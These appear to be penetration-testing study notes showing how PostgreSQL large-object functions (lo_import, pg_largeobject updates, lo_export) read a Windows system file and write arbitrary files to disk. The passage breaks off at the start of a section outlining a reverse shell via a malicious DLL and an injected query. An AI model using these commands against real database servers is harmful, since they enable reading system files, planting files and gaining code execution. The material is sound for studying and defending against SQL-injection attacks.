 Select the large object you want to import 
```PSQL
select lo_import('C:\\Windows\\win.ini');
```
```PSQL
\lo_list
```
Importing the `win.ini` file into the database and as a return value we are provided with the `loid` of the large object.
A `loid` is a integral value that we need to reference when exporting large objects.
`lo_import` allows us to set the `loid` to whatever we want
```PSQL
select lo_import('C:\\Windows\\win.ini', 1337);
```
The large objects are stored in the `pg_largeobject` table.
```PSQL
select loid, pageno from pg_largeobject;
```
```
 loid | pageno
------+--------
 1337 |      0
```
* When a large object is created they are imported and split into 2KB chunks which is stored individually in the `pg_largeobject` table:
*The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).*
```
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
```
 loid | pageno |           encode
------+--------+----------------------------
 1337 |      0 | ; for 16-bit app support\r+
      |        | [fonts]\r                 +
      |        | [extensions]\r            +
      |        | [mci extensions]\r        +
      |        | [files]\r                 +
      |        | [Mail]\r                  +
      |        | MAPI=1\r                  +
      |        |
(1 row)
```
* Updating the entry
```PSQL
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;
```
```
select loid, pageno, encode(data, 'escape') from pg_largeobject;
 loid | pageno | encode
------+--------+--------
 1337 |      0 | w00t
```
Finally we need to take a look at the `lo_export`, as this function is used to export an arbitrary large object back to the file system using the *loid* as the identifier. 
```PSQL
select lo_export(1337, 'C:\\new_win.ini');
```
![[6eb6b46c5bfff2ab61b0d04375ad0154-Picture30 1.png]]
* To delete from the large object: 
```PSQL
\lo_unlink 1337
```
#### Large Object Reverse Shell
1. Create a DLL file that will contain our malicious code
2. Inject a query that creates a large object from an arbitrary remote file on disk